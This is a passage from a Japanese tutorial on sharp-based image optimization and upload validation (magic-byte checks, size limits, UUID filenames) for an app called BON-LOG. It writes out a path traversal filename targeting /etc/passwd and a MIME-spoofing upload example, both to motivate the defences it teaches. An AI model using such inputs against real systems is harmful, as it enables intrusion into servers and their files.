 * WebPの特徴:
 * - JPEGより約25-35%小さいファイルサイズ
 * - 透過(アルファチャンネル)サポート
 * - ほぼ全てのモダンブラウザが対応
 */
async function convertToWebP(buffer: Buffer, quality: number = 80): Promise<Buffer> {
  return await sharp(buffer)
    .webp({
      quality,      // 品質（1-100）: 80が推奨バランス
      effort: 4,    // エンコード努力度（0-6）: 高いほど小さいが遅い
    })
    .toBuffer()
}

/**
 * 画像をAVIF形式に変換
 *
 * AVIFの特徴:
 * - WebPよりさらに20%程度小さい
 * - 対応ブラウザが増加中（Chrome, Firefox, Safari 16+）
 * - エンコードが遅い（CPUコストが高い）
 *
 * 注意: メモリ消費が大きいため、サーバーのスペックに注意
 */
async function convertToAVIF(buffer: Buffer, quality: number = 50): Promise<Buffer> {
  return await sharp(buffer)
    .avif({
      quality,      // 品質（1-100）: AVIFは50程度でも高品質
      effort: 4,    // エンコード努力度（0-9）
    })
    .toBuffer()
}
```

フォーマット別の容量比較（目安）:

| フォーマット | 品質設定 | 容量（元JPEG 1MB基準） | ブラウザ対応率 |
|-------------|---------|---------------------|-------------|
| JPEG | quality: 80 | 1MB（基準） | 100% |
| WebP | quality: 80 | ~650KB（-35%） | ~97% |
| AVIF | quality: 50 | ~500KB（-50%） | ~92% |
| PNG | (無損失) | ~3MB（+200%） | 100% |

### 11.10.5 EXIF情報の除去

写真にはEXIF（Exchangeable Image File Format）という撮影メタデータが含まれています。GPS座標、カメラ機種、撮影日時などの個人情報が含まれるため、SNSにアップロードする際は除去が必要です。

```typescript
/**
 * EXIF情報を除去
 *
 * EXIFに含まれる情報の例:
 * - GPS座標（撮影場所が特定される）
 * - カメラ機種・レンズ情報
 * - 撮影日時
 * - 撮影者名（カメラの設定による）
 * - サムネイル画像
 *
 * プライバシー保護のため、アップロード時にすべて除去する
 */
async function removeExifData(buffer: Buffer): Promise<Buffer> {
  return await sharp(buffer)
    .rotate()  // EXIF回転情報に基づいて画像を正しい向きに回転
    .toBuffer()
  // ※ sharpはデフォルトでEXIFを除去する（keepExif: false）
}
```

> **なぜ `.rotate()` を呼ぶのか？**
>
> スマートフォンで撮影した画像は、ファイル自体は横向きで保存され、EXIFの回転フラグで「本来の向き」を記録しています。EXIF情報を除去する前に`.rotate()`を呼ぶことで、回転フラグの情報を画像データ自体に反映させます。これを忘れると、画像が横向きや上下逆に表示される問題が起こります。

### 11.10.6 サムネイル生成

投稿一覧やタイムラインでは、小さなサムネイル画像を使用することでページの読み込み速度を改善します。

```typescript
/**
 * 複数サイズのサムネイルを一括生成
 *
 * 用途別のサイズ:
 * - thumbnail: 一覧表示（タイムライン、検索結果）
 * - medium: 投稿詳細ページ
 * - large: モーダルでの拡大表示
 */
interface ThumbnailResult {
  thumbnail: Buffer  // 150x150
  medium: Buffer     // 600x600
  large: Buffer      // 1200x1200
}

async function generateThumbnails(buffer: Buffer): Promise<ThumbnailResult> {
  // sharp のインスタンスを再利用してデコードを1回にする
  const image = sharp(buffer).rotate() // EXIF回転を適用

  // Promise.all で並列処理（高速化）
  const [thumbnail, medium, large] = await Promise.all([
    image.clone().resize(150, 150, { fit: 'cover' }).webp({ quality: 70 }).toBuffer(),
    image.clone().resize(600, 600, { fit: 'inside' }).webp({ quality: 80 }).toBuffer(),
    image.clone().resize(1200, 1200, { fit: 'inside' }).webp({ quality: 85 }).toBuffer(),
  ])

  return { thumbnail, medium, large }
}

// 使用例
const thumbnails = await generateThumbnails(originalBuffer)

// 各サイズを別々のキーでストレージにアップロード
await uploadFile(thumbnails.thumbnail, 'thumb.webp', 'image/webp', 'posts/thumb')
await uploadFile(thumbnails.medium, 'medium.webp', 'image/webp', 'posts/medium')
await uploadFile(thumbnails.large, 'large.webp', 'image/webp', 'posts/large')
```

> **`.clone()` の重要性**
>
> sharpのインスタンスはストリーム処理を行うため、一度消費すると再利用できません。`.clone()`を使うことで同じ入力から複数の出力を生成できます。これにより、元画像のデコードは1回で済み、メモリ効率が向上します。

### 11.10.7 品質パラメータの最適化

画像品質とファイルサイズはトレードオフの関係にあります。用途に応じた適切な品質設定を選びましょう。

```typescript
/**
 * 用途別の推奨品質設定
 */
const QUALITY_PRESETS = {
  // アバター画像: 小さいサイズなので高品質でも容量が小さい
  avatar: { width: 400, height: 400, quality: 85, format: 'webp' as const },

  // ヘッダー画像: 横長で大きいため、やや品質を下げる
  header: { width: 1500, height: 500, quality: 80, format: 'webp' as const },

  // 投稿画像: 詳細が重要なのでバランスを取る
  post: { width: 1200, height: 1200, quality: 80, format: 'webp' as const },

  // サムネイル: 小さいサイズなので品質を下げてもよい
  thumbnail: { width: 150, height: 150, quality: 70, format: 'webp' as const },
} as const

/**
 * プリセットに基づいて画像を最適化
 */
async function optimizeImage(
  buffer: Buffer,
  preset: keyof typeof QUALITY_PRESETS
): Promise<Buffer> {
  const config = QUALITY_PRESETS[preset]

  let pipeline = sharp(buffer)
    .rotate()  // EXIF回転適用
    .resize(config.width, config.height, {
      fit: 'inside',
      withoutEnlargement: true,
    })

  // フォーマットに応じたエンコード
  if (config.format === 'webp') {
    pipeline = pipeline.webp({ quality: config.quality })
  }

  return await pipeline.toBuffer()
}

// 使用例
const optimizedAvatar = await optimizeImage(rawBuffer, 'avatar')
const optimizedPost = await optimizeImage(rawBuffer, 'post')
```

### 11.10.8 画像メタデータの取得

アップロードされた画像の情報を取得して、バリデーションやログに活用します。

```typescript
/**
 * 画像のメタデータを取得
 *
 * 取得できる情報:
 * - width/height: 画像サイズ
 * - format: フォーマット（jpeg, png, webp等）
 * - size: ファイルサイズ（バイト）
 * - hasAlpha: 透過情報があるか
 * - orientation: EXIF回転情報
 */
async function getImageMetadata(buffer: Buffer) {
  const metadata = await sharp(buffer).metadata()

  return {
    width: metadata.width,
    height: metadata.height,
    format: metadata.format,
    size: metadata.size,
    hasAlpha: metadata.hasAlpha,
    orientation: metadata.orientation,
  }
}

// 使用例: バリデーションに活用
const metadata = await getImageMetadata(buffer)

if (metadata.width && metadata.height) {
  // 極端に小さい画像を拒否
  if (metadata.width < 50 || metadata.height < 50) {
    return { error: '画像が小さすぎます（最小50x50ピクセル）' }
  }

  // 極端に大きい画像を拒否
  if (metadata.width > 10000 || metadata.height > 10000) {
    return { error: '画像が大きすぎます（最大10000x10000ピクセル）' }
  }
}
```

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: `fit: 'inside'`と`fit: 'cover'`の使い分けはどうすべきですか？

**A1**: `fit: 'inside'`は投稿画像など元の画像全体を保持したい場合に使います。指定サイズ内に収まるように縮小し、トリミングしません。`fit: 'cover'`はアバターのように決まったアスペクト比で表示したい場合に使います。指定サイズぴったりにクロップ（トリミング）します。

**Q2**: sharpの`.clone()`を使わないとどうなりますか？

**A2**: sharpのインスタンスはストリーム処理のため、一度`toBuffer()`や`toFile()`を実行すると消費されます。`.clone()`なしで同じインスタンスから複数の出力を生成しようとすると、2回目以降でエラーになるか空の結果が返ります。`.clone()`を使えば入力のデコードを共有しつつ、それぞれ独立したパイプラインとして処理できます。

**Q3**: EXIF除去と`.rotate()`の順序が重要な理由は？

**A3**: スマートフォンで撮影した画像はEXIFの回転フラグで向きを管理しています。`.rotate()`は引数なしで呼ぶとEXIFの回転情報を画像データに反映します。sharpはデフォルトでEXIFを除去するため、`.rotate()`を先に呼ばないと回転情報が失われ、画像が横向きや上下逆に表示されてしまいます。
</details>

### 11.10.9 sharpの内部アーキテクチャ

sharpがなぜこれほど高速に画像処理を行えるのか、その内部の仕組みを理解しましょう。



```
■ なぜ速い？

1. C言語で実装されている
   → JavaScript の 10〜100倍の演算速度

2. ストリーミング処理
   → 画像全体をメモリに展開せず、タイルごとに処理
   → 10,000 x 10,000 の画像でもメモリ使用量が数百MB以内

3. SIMD命令の活用
   → CPU の Single Instruction Multiple Data を利用
   → 1命令で複数ピクセルを同時に処理

4. マルチスレッド
   → Node.js のメインスレッドをブロックしない
   → libuv スレッドプール（デフォルト4スレッド）で並列実行
```

**日常の例え**: sharpを使った画像処理は、「プロの料理人が業務用キッチンで調理する」ようなものです。JavaScriptだけで画像を処理するのは「家庭のキッチンで料理する」イメージです。同じレシピ（コード）でも、業務用の設備（C言語のlibvips）を使えば、圧倒的に速く大量に処理できます。

### 11.10.10 sharpと他のライブラリの比較

Node.jsで利用できる画像処理ライブラリは複数あります。それぞれの特徴を比較しましょう。

| 項目 | sharp | Jimp | canvas (node) | Pillow (Python) |
|------|-------|------|---------------|-----------------|
| 言語 | C (libvips) | 純JavaScript | C++ (Cairo) | C (PIL) |
| 速度 | ★★★★★ | ★★☆☆☆ | ★★★☆☆ | ★★★★☆ |
| メモリ効率 | ★★★★★ | ★★☆☆☆ | ★★★☆☆ | ★★★★☆ |
| インストール容易さ | ネイティブバイナリ | npm installのみ | ネイティブバイナリ | pip install |
| WebP対応 | あり | なし | なし | あり |
| AVIF対応 | あり | なし | なし | 一部 |
| 用途 | 本番環境・大量処理 | プロトタイピング | 描画・合成・テキスト | Python環境 |

**ベンチマーク結果（2000x1500 JPEG → 800x600 WebP変換）:**

```
sharp:         35ms  (基準)
node-canvas:   180ms (5.1倍遅い)
Jimp:          850ms (24倍遅い)
ImageMagick:   280ms (8倍遅い)
```

BON-LOGでは処理速度とメモリ効率を重視してsharpを採用しています。特にVercelのサーバーレス環境では、メモリ制限（256MB〜1024MB）があるため、ストリーミング処理のsharpが最適です。

### 11.10.11 画像処理パイプラインの実践

BON-LOGで実際に使用する画像処理パイプラインを、投稿画像の処理を例に詳しく見ていきましょう。

```typescript
/**
 * 投稿画像の処理パイプライン
 *
 * アップロードされた生画像を、表示に最適な形式に変換する
 * 一連の処理フローです。
 *
 * 処理順序（重要！）:
 * 1. rotate()  - EXIF回転を適用（EXIF除去前に！）
 * 2. resize()  - 適切なサイズに縮小
 * 3. webp()    - WebP形式に変換（容量削減）
 * 4. toBuffer() - 結果をBufferとして取得
 *
 * なぜこの順序か？
 * - rotate() はEXIF情報が残っている間に呼ぶ必要がある
 * - resize() は早い段階で呼ぶと、以降の処理が高速になる
 *   （処理するピクセル数が減るため）
 * - webp() は最後にエンコード（出力形式を決定）
 */
async function processPostImage(buffer: Buffer): Promise<{
  processed: Buffer
  metadata: { width: number; height: number; format: string; size: number }
}> {
  // 元画像の情報を取得（ログやバリデーション用）
  const originalMeta = await sharp(buffer).metadata()
  console.log(`元画像: ${originalMeta.width}x${originalMeta.height}, ${originalMeta.format}`)

  // 処理パイプラインを構築
  const processed = await sharp(buffer)
    // Step 1: EXIF回転を適用
    // 引数なしで呼ぶと、EXIF の Orientation タグに基づいて回転
    // スマートフォンの縦撮り写真が正しい向きになる
    .rotate()

    // Step 2: リサイズ
    // 投稿画像は最大1200x1200に収める
    .resize(1200, 1200, {
      fit: 'inside',            // アスペクト比を維持
      withoutEnlargement: true, // 小さい画像は拡大しない
      // ※ sharpのデフォルトリサイズアルゴリズムは 'lanczos3'
      //    高品質だがやや遅い。速度優先なら 'nearest' を使用
    })

    // Step 3: WebP形式に変換
    .webp({
      quality: 80,  // 80%の品質（人間の目にはほぼ劣化が分からない）
      effort: 4,    // エンコード努力度（0-6）: 4はバランス型
      // ※ effort を上げるとファイルサイズは小さくなるが処理時間が増加
      //    0: 最速（品質低）, 6: 最遅（品質高）
    })

    // Step 4: Bufferとして出力
    .toBuffer()

  // 処理後の情報を取得
  const processedMeta = await sharp(processed).metadata()

  return {
    processed,
    metadata: {
      width: processedMeta.width || 0,
      height: processedMeta.height || 0,
      format: processedMeta.format || 'webp',
      size: processed.length,
    },
  }
}

// 使用例
const result = await processPostImage(uploadedBuffer)
console.log(`処理後: ${result.metadata.width}x${result.metadata.height}`)
console.log(`サイズ: ${(result.metadata.size / 1024).toFixed(1)}KB`)

// ストレージにアップロード
await uploadFile(result.processed, 'post.webp', 'image/webp', 'post-images')
```

### 11.10.12 アバター画像の特殊処理

アバター画像はプロフィール画像として使われるため、正方形にトリミングする特殊な処理が必要です。

```typescript
/**
 * アバター画像の処理パイプライン
 *
 * アバター画像の特殊要件:
 * 1. 正方形にトリミング（UIで丸く表示するため）
 * 2. 小さいサイズ（400x400で十分）
 * 3. 高品質（プロフィールの「顔」なので妥協しない）
 */
async function processAvatarImage(buffer: Buffer): Promise<Buffer> {
  return await sharp(buffer)
    .rotate()  // EXIF回転を適用

    // 正方形にトリミング
    // fit: 'cover' は指定サイズにぴったり収まるようにクロップ
    // position: 'centre' は中央を基準にクロップ
    .resize(400, 400, {
      fit: 'cover',
      position: 'centre',
      // 'centre' 以外のオプション:
      // 'top': 上部を優先（風景写真向き）
      // 'right top': 右上を優先
      // 'entropy': 画像の「面白い」部分を自動検出してクロップ
      // 'attention': 人の顔やコントラストの高い部分を自動検出
    })

    // WebP形式に変換（アバターは小さいので高品質でも容量が小さい）
    .webp({ quality: 85 })

    .toBuffer()
}

/**
 * ヘッダー画像の処理パイプライン
 *
 * ヘッダー画像の特殊要件:
 * 1. 横長（1500x500のアスペクト比）
 * 2. 大きいサイズだが、品質はやや下げる（大面積なので）
 */
async function processHeaderImage(buffer: Buffer): Promise<Buffer> {
  return await sharp(buffer)
    .rotate()

    // 横長にトリミング（3:1 のアスペクト比）
    .resize(1500, 500, {
      fit: 'cover',
      position: 'centre',
    })

    // 面積が大きいのでやや品質を下げる
    .webp({ quality: 78 })

    .toBuffer()
}
```



### 11.10.13 エラーハンドリングとフォールバック

sharp処理中にエラーが発生した場合の適切な対処法です。

```typescript
/**
 * 安全な画像処理ラッパー
 *
 * sharp処理に失敗した場合でも、元の画像を返すことで
 * アップロード処理全体が失敗しないようにする
 *
 * ■ なぜフォールバックが必要か？
 * - 破損した画像ファイル（部分的にダウンロードされた等）
 * - 非常に大きな画像（メモリ不足）
 * - sharpが対応していない特殊なサブフォーマット
 * これらの場合でも、元の画像をそのまま保存する方が
 * 「アップロード失敗」よりユーザー体験が良い
 */
async function safeProcessImage(
  buffer: Buffer,
  processFn: (buf: Buffer) => Promise<Buffer>
): Promise<{ processed: Buffer; wasOptimized: boolean }> {
  try {
    const processed = await processFn(buffer)

    // 処理後のサイズが元より大きくなった場合は元を返す
    // （PNGの小さな画像をWebP変換すると大きくなることがある）
    if (processed.length > buffer.length) {
      console.warn('処理後のサイズが元より大きいため、元画像を使用します')
      return { processed: buffer, wasOptimized: false }
    }

    return { processed, wasOptimized: true }
  } catch (error) {
    console.error('画像処理に失敗しました。元画像を使用します:', error)
    return { processed: buffer, wasOptimized: false }
  }
}

// 使用例
const { processed, wasOptimized } = await safeProcessImage(
  uploadedBuffer,
  (buf) => processPostImage(buf).then(r => r.processed)
)

if (wasOptimized) {
  console.log('画像を最適化してアップロードします')
} else {
  console.log('元画像をそのままアップロードします')
}
```

### 11.10.14 メモリ管理とパフォーマンス

大量の画像を処理する場合のメモリ管理について解説します。

```typescript
/**
 * sharpのメモリ管理ベストプラクティス
 *
 * ■ sharp.cache()
 * sharpは内部でデコード結果をキャッシュする。
 * メモリを節約したい場合はキャッシュを無効化できる。
 */

// メモリ使用量の確認
const stats = sharp.cache()
// { memory: { current: 50331648, high: 67108864, max: 268435456 },
//   files: { current: 0, max: 20 },
//   items: { current: 12, max: 100 } }

// キャッシュサイズを制限（Vercel等のメモリ制限環境向け）
sharp.cache({ memory: 50, files: 10, items: 20 })

// キャッシュを完全に無効化（メモリが極端に少ない環境）
sharp.cache(false)

/**
 * 並行処理数の制限
 *
 * sharpはlibuvスレッドプールを使用する。
 * デフォルトは4スレッド。
 * Vercel等の環境ではCPUコア数に合わせて調整が必要。
 */
sharp.concurrency(2) // 同時に2スレッドまで使用

/**
 * 大きな画像の安全な処理
 *
 * sharpのデフォルトでは、268メガピクセル
 * (例: 16384 x 16384) を超える画像は拒否される。
 * 必要に応じて制限を変更可能。
 */
sharp.limitInputPixels(false)  // 制限を無効化（注意：OOM のリスクあり）
sharp.limitInputPixels(100 * 1024 * 1024)  // 100メガピクセルに設定
```

```
■ Vercel環境での推奨メモリ設定

Vercelの関数メモリ制限:
  Hobby:    1024MB
  Pro:      1024MB (最大 3008MB)
  Enterprise: カスタム

sharpの推奨設定（Vercel Hobby/Proプラン）:
  sharp.cache({ memory: 50 })  // キャッシュ50MB
  sharp.concurrency(1)         // 1スレッド（メモリ節約）

  最大処理可能な画像サイズ目安:
    JPEG: ~20MB (8000x6000px)
    PNG:  ~10MB (4000x3000px)
    WebP: ~15MB (6000x4000px)
```

<details>
<summary><b>理解度チェック: sharp画像処理の応用</b></summary>

**Q1**: sharpが純JavaScriptライブラリ（Jimpなど）より圧倒的に速い理由を3つ挙げてください。

**A1**: (1) C言語製のlibvipsを使用しており、JavaScriptよりも低レベルでCPUに近い処理が可能。(2) ストリーミング処理により、画像全体をメモリに展開せずタイルごとに処理するため、メモリ効率が高く大きな画像でも処理可能。(3) SIMD（Single Instruction Multiple Data）命令を活用し、1つのCPU命令で複数ピクセルを同時に処理するため、ピクセル単位の演算が高速。

**Q2**: アバター画像の処理で `fit: 'cover'` を使い、投稿画像で `fit: 'inside'` を使う理由を説明してください。

**A2**: アバター画像はUIで必ず正方形（丸く切り抜かれる）として表示されるため、指定サイズぴったりにトリミングする `fit: 'cover'` が適しています。投稿画像は元の構図（盆栽全体の姿）を保持することが重要なので、トリミングせずに指定サイズ内に収める `fit: 'inside'` が適しています。

**Q3**: `safeProcessImage()` のようなフォールバック機構がなぜ重要ですか？

**A3**: 画像処理は外部入力（ユーザーがアップロードしたファイル）に依存するため、予期しないエラーが発生しやすい箇所です。破損した画像ファイル、メモリ不足、対応していないサブフォーマットなど、さまざまな原因で処理が失敗する可能性があります。フォールバックがないと画像処理の失敗がアップロード全体の失敗になり、ユーザーは画像を投稿できません。元画像をそのまま保存するフォールバックがあれば、最適化はされなくても投稿自体は成功するため、ユーザー体験を維持できます。

**Q4**: Vercel環境でsharpを使う際の注意点を2つ説明してください。

**A4**: (1) メモリ制限があるため、`sharp.cache()` でキャッシュサイズを制限し、`sharp.concurrency()` で同時処理スレッド数を減らす必要があります。大きな画像の処理でメモリ上限に達するとサーバーレス関数がクラッシュします。(2) Vercelのサーバーレス関数には実行時間制限（Hobbyプランで10秒、Proプランで60秒）があるため、AVIF変換のようなCPU負荷の高い処理は時間内に完了しない可能性があります。WebP変換の方が処理時間と品質のバランスが良いです。
</details>

---

## 11.11 ファイルバリデーション詳細

> **このセクションで学ぶこと**
> - マジックバイト（ファイルシグネチャ）によるMIMEタイプの真正検証
> - ファイルサイズ制限の実装パターン
> - 拡張子チェックとMIMEタイプの整合性検証
> - 画像・動画の許可フォーマット管理

### 11.11.1 なぜマジックバイト検証が必要か

ブラウザから送信されるファイルの`Content-Type`（MIMEタイプ）は、ユーザーが簡単に偽装できます。例えば、実行ファイル（`.exe`）を`image/jpeg`と偽ってアップロードされる可能性があります。

```
■ MIMEタイプ偽装攻撃の例

攻撃者が作成したリクエスト:
  Content-Type: image/jpeg    ← 嘘のMIMEタイプ
  ファイル内容: MZxxxxxx...   ← 実際はWindows実行ファイル

サーバーがContent-Typeだけチェックする場合:
  → 「JPEG画像だ」と判定して保存してしまう
  → 他のユーザーがダウンロードして実行する危険性

マジックバイトもチェックする場合:
  → ファイルの先頭が 0xFF 0xD8 ではない
  → 「これはJPEGではない」と正しく拒否できる
```

**マジックバイト（ファイルシグネチャ）** とは、ファイルの先頭にある特定のバイト列で、ファイル形式を一意に識別するものです。これはファイルの「指紋」のようなもので、偽装が極めて困難です。

### 11.11.2 ファイルシグネチャの定義

BON-LOGがサポートする各ファイル形式のシグネチャ定義です。

```typescript
// lib/file-validation.ts

/**
 * ファイルシグネチャの型定義
 */
type FileSignature = {
  mimeType: string        // 対応するMIMEタイプ
  signatures: number[][]  // マジックバイトパターン（複数可）
  offset?: number         // シグネチャの開始位置（デフォルト: 0）
}

/**
 * サポートされる全ファイル形式のシグネチャ定義
 */
const FILE_SIGNATURES: FileSignature[] = [
  // ── 画像形式 ──

  // JPEG: 先頭が 0xFF 0xD8 0xFF で始まる
  // 4バイト目がバリアントを示す（JFIF, EXIF, ICC等）
  {
    mimeType: 'image/jpeg',
    signatures: [
      [0xFF, 0xD8, 0xFF, 0xE0], // JFIF形式
      [0xFF, 0xD8, 0xFF, 0xE1], // EXIF形式（スマートフォン写真）
      [0xFF, 0xD8, 0xFF, 0xE2], // ICC プロファイル付き
      [0xFF, 0xD8, 0xFF, 0xE3],
      [0xFF, 0xD8, 0xFF, 0xE8],
      [0xFF, 0xD8, 0xFF, 0xDB], // Raw JPEG
      [0xFF, 0xD8, 0xFF, 0xEE], // Adobe JPEG
    ],
  },

  // PNG: 固定の8バイトシグネチャ
  // 0x89 P N G \r \n 0x1A \n
  {
    mimeType: 'image/png',
    signatures: [[0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]],
  },

  // WebP: RIFFコンテナ + 8バイト目以降に"WEBP"
  {
    mimeType: 'image/webp',
    signatures: [[0x52, 0x49, 0x46, 0x46]], // "RIFF"
  },

  // GIF: "GIF87a" or "GIF89a"
  {
    mimeType: 'image/gif',
    signatures: [
      [0x47, 0x49, 0x46, 0x38, 0x37, 0x61], // GIF87a
      [0x47, 0x49, 0x46, 0x38, 0x39, 0x61], // GIF89a
    ],
  },

  // ── 動画形式 ──

  // MP4: オフセット4バイト目に"ftyp"
  {
    mimeType: 'video/mp4',
    signatures: [[0x66, 0x74, 0x79, 0x70]], // "ftyp"
    offset: 4,  // ← ファイル先頭ではなく、4バイト目から比較
  },

  // WebM: EBMLヘッダー
  {
    mimeType: 'video/webm',
    signatures: [[0x1A, 0x45, 0xDF, 0xA3]],
  },
]
```

### 11.11.3 シグネチャ照合アルゴリズム

ファイルの先頭バイトとシグネチャを照合する実装です。

```typescript
/**
 * バイト配列がシグネチャと一致するかチェック
 *
 * @param buffer - 検証対象のファイルバッファ
 * @param signature - 期待されるシグネチャバイト列
 * @param offset - 比較開始位置（デフォルト: 0）
 */
function matchesSignature(buffer: Buffer, signature: number[], offset: number = 0): boolean {
  // バッファが短すぎる場合は不一致
  if (buffer.length < offset + signature.length) {
    return false
  }

  // 各バイトを順番に比較
  for (let i = 0; i < signature.length; i++) {
    if (buffer[offset + i] !== signature[i]) {
      return false
    }
  }
  return true
}

/**
 * ファイルのシグネチャを検証してMIMEタイプを検出
 *
 * すべてのシグネチャ定義と照合し、最初に一致したMIMEタイプを返す
 */
export function detectFileType(buffer: Buffer): string | null {
  for (const fileSig of FILE_SIGNATURES) {
    const offset = fileSig.offset || 0

    for (const signature of fileSig.signatures) {
      if (matchesSignature(buffer, signature, offset)) {
        // RIFFコンテナの場合は追加チェックが必要
        if (fileSig.mimeType === 'image/webp') {
          if (isWebP(buffer)) return 'image/webp'
          continue  // WebPでなければ次をチェック
        }
        return fileSig.mimeType
      }
    }
  }
  return null  // いずれのシグネチャにも一致しない
}
```

> **RIFFコンテナの特殊処理**
>
> WebPとAVIはどちらもRIFFコンテナ形式を使用しています。先頭4バイトが同じ`RIFF`のため、8バイト目以降のサブタイプ（`WEBP`または`AVI `）を追加チェックして区別する必要があります。

### 11.11.4 画像バリデーション関数

MIMEタイプとマジックバイトの両方を検証する統合関数です。

```typescript
/**
 * 画像ファイルを検証
 *
 * 二重チェック:
 * 1. クライアントが主張するMIMEタイプが許可リストに含まれるか
 * 2. ファイルの実際のシグネチャが画像形式として有効か
 */
export function validateImageFile(
  buffer: Buffer,
  claimedMimeType: string,
  allowedTypes: string[] = ['image/jpeg', 'image/png', 'image/webp']
): FileValidationResult {
  // Step 1: 主張されたMIMEタイプが許可リストにあるか
  if (!allowedTypes.includes(claimedMimeType)) {
    return {
      valid: false,
      error: `許可されていないファイル形式です。対応形式: ${allowedTypes.join(', ')}`,
    }
  }

  // Step 2: ファイルシグネチャから実際のタイプを検出
  const detectedType = detectFileType(buffer)
  if (!detectedType) {
    return {
      valid: false,
      error: 'ファイル形式を識別できません。有効な画像ファイルを選択してください',
    }
  }

  // Step 3: 検出されたタイプが許可リストにあるか
  if (!allowedTypes.includes(detectedType)) {
    return {
      valid: false,
      error: `ファイルの実際の形式（${detectedType}）は許可されていません`,
    }
  }

  return { valid: true, detectedType }
}
```

### 11.11.5 ファイルサイズ制限

BON-LOGでは用途ごとに異なるファイルサイズ制限を設けています。

```typescript
// app/api/upload/route.ts

// サイズ制限の定義
const MAX_VIDEO_SIZE = 256 * 1024 * 1024  // 動画: 256MB
const MAX_IMAGE_SIZE = 4 * 1024 * 1024    // 画像: 4MB

// アバター・ヘッダー画像のAPI
// app/api/upload/avatar/route.ts, app/api/upload/header/route.ts
const MAX_PROFILE_IMAGE_SIZE = 4 * 1024 * 1024  // プロフィール画像: 4MB
```

サイズチェックの実装パターンを示します。

```typescript
// ファイルサイズチェックの実装
const isVideo = file.type.startsWith('video/')
const maxSize = isVideo ? MAX_VIDEO_SIZE : MAX_IMAGE_SIZE

if (file.size > maxSize) {
  const maxSizeMB = maxSize / 1024 / 1024
  return NextResponse.json(
    {
      error: isVideo
        ? `動画は${maxSizeMB}MB以下にしてください`
        : `画像は${maxSizeMB}MB以下にしてください`
    },
    { status: 400 }
  )
}
```

### 11.11.6 安全なファイル名生成

ユーザーが指定したファイル名をそのまま使用すると、パストラバーサル攻撃のリスクがあります。UUIDベースの安全なファイル名を生成します。

```typescript
/**
 * 安全なファイル名を生成
 *
 * 攻撃例:
 *   元のファイル名: "../../etc/passwd.jpg"
 *   → そのまま使うとサーバーの重要ファイルを上書きする危険性
 *
 * 対策:
 *   元のファイル名を完全に無視し、UUIDで新しいファイル名を生成
 */
export function generateSafeFileName(originalName: string, mimeType: string): string {
  const extensionMap: Record<string, string> = {
    'image/jpeg': 'jpg',
    'image/png': 'png',
    'image/webp': 'webp',
    'image/gif': 'gif',
    'video/mp4': 'mp4',
    'video/quicktime': 'mov',
    'video/webm': 'webm',
  }

  const extension = extensionMap[mimeType] || 'bin'
  const uuid = crypto.randomUUID()

  // 元のファイル名は一切使用しない（セキュリティ上の理由）
  return `${uuid}.${extension}`
}

// 使用例
generateSafeFileName('../../etc/passwd.jpg', 'image/jpeg')
// → 'a1b2c3d4-e5f6-7890-abcd-ef1234567890.jpg'
```

### 11.11.7 許可フォーマットの管理

Set（集合）オブジェクトで許可フォーマットを管理し、効率的なルックアップを実現しています。

```typescript
/**
 * 画像形式のMIMEタイプセット
 */
export const IMAGE_MIME_TYPES = new Set([
  'image/jpeg',     // JPEG（最も一般的）
  'image/png',      // PNG（透過対応）
  'image/webp',     // WebP（次世代フォーマット）
  'image/gif',      // GIF（アニメーション対応）
])

/**
 * 動画形式のMIMEタイプセット
 */
export const VIDEO_MIME_TYPES = new Set([
  'video/mp4',         // MP4（最も一般的）
  'video/quicktime',   // MOV（Apple形式）
  'video/webm',        // WebM（Web標準）
  'video/x-msvideo',   // AVI（レガシー形式）
])

// Set.has() は配列の includes() より高速（O(1) vs O(n)）
if (IMAGE_MIME_TYPES.has(detectedType)) {
  // 画像として処理
}
```

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: マジックバイト検証はなぜContent-Typeヘッダーだけのチェックより安全なのですか？

**A1**: Content-Typeヘッダーはクライアント（ブラウザや攻撃ツール）が自由に設定できるため、悪意あるファイルに`image/jpeg`などの無害なMIMEタイプを設定して偽装できます。一方、マジックバイトはファイルのバイナリデータそのものに埋め込まれた「指紋」であり、ファイルの実際の形式を反映しています。偽装するにはファイル構造自体を変更する必要があり、攻撃の難易度が大幅に上がります。

**Q2**: `generateSafeFileName()`が元のファイル名を完全に無視する理由は何ですか？

**A2**: ユーザーが提供するファイル名には`../../`のようなパストラバーサル文字列、空白やUnicode制御文字、OSの予約語（`CON`, `NUL`等）など、さまざまな危険要素が含まれる可能性があります。これらを個別にフィルタリングするより、ファイル名を完全に新規生成（UUID + MIMEタイプベースの拡張子）する方が確実に安全です。
</details>

### 11.11.8 ファイルバリデーションの全体フロー図

バリデーション処理がどの順序で実行され、どの時点でどのような検証が行われるかを可視化します。

